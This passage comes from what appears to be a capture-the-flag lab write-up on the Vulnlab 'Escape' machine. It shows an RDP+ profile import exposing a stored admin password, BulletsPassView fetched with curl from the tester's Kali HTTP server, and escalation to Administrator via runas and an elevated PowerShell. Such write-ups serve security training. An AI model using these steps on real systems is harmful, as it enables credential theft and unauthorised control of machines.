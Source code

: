That is until I realized the one thing we can do, which is within `Manage profiles...`. We don't have any profiles at first in the window that pops up, but it does allow us to import profiles based on a respective profile file. We did have one before for the `admin` user, so let's try to import that. Note that you'll need to move the `profiles.xml` file to a place you can actually access, which I moved to the `Downloads` folder and then imported from there.

![](/images/vulnlab/escape-vl/k.jpg)

Now that we imported the profile - we can see that RDP+ displays the password in bulleted-text. This means that the plaintext password must've been loaded into the application, as the length has shrunk immensely (in comparison to the hash).

Now that we have the password technically on our screen, we can use a tool that isn't commonly used on machines for red-teaming - [BulletsPassView](https://www.nirsoft.net/utils/bullets_password_view.html). This is a password recovery tool, and is used to reveal passwords that are stored behind bullets in a regular text-box. It's used to help users who forget their passwords, and allows them to easily reveal and copy their plaintext passwords for reusage.

We'll be using this tool to help reveal the `admin` password. This specific executable isn't malicious in nature, which I'm thankful for since Defender is enabled on this kiosk. (You can test this by just running `"Invoke-Mimikatz"` in your PowerShell session.)

All that we'll need is a Python server on our Kali machine (we're actually using our Kali host for the first time - and we're about to root this box!) with the BPV.exe file. You can download BPV from the link I posted and start a Python server with `python3 -m http.server (PORT)`.

After that's finished, we'll use cURL to download the executable to the kiosk `curl http://(KALI IP):(PORT)/BuletsPassView.exe -O BPV.exe`. We can then run the binary and the application should load. (Note, make sure to download the x64-bit version so it can properly detect RDP+)

![](/images/vulnlab/escape-vl/l.jpg)

If you have both RDP+ and BPV opened, upon refreshing you should see the password in plaintext. This means we can now escalate to this user! You can do so by just starting a new PowerShell process using `runas`.

```
PS C:\Users\kioskUser0\Downloads> runas /user:ESCAPE\admin C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

This should elevate us to `admin`, though you'll notice that our privileges are still the same as the `Administrator` user. We can circumvent this by doing `Start-Process powershell -verb runAs` to start up another PowerShell window in the context of the Administrator user as the `admin` user as UAC bypass enabled. If you run `whoami /priv` after this, you'll see that we are now the Administrator on the machine.

![](/images/vulnlab/escape-vl/m.jpg)

As noted above, the root flag is within `C:\Users\Administrator\Desktop\root.txt`, meaning we have successfully rooted this machine!

# Conclusion
